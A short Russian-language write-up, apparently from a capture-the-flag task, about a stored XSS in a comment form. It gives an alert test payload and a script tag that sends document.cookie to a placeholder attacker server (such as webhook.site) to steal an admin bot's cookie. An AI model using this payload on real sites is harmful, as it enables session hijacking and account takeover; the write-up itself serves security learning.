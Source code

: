 Стандартная история, которая уязвима к xss. В качестве комментария можно оставить, например 
```html
<script> alert(123) </script>
```
И увидеть алерт.

В теории там должен быть запущен бот с админской кукой, которую нам надо сторить, который будет раз в какое то время ходить на эту страницу и исполнять у себя xss-ки, но в послелдний раз, когда я заходил на сервис, он не работал. А вообще алгоритм такой:

- Поднять сервер или взять готовый (например webhook.site)
- Запостить комментарий с содержанием 

```html
<script> fetch(`<url_вашего_сервера>?a=${document.cookie}`) </script>
```
- Получить на сервере куку.
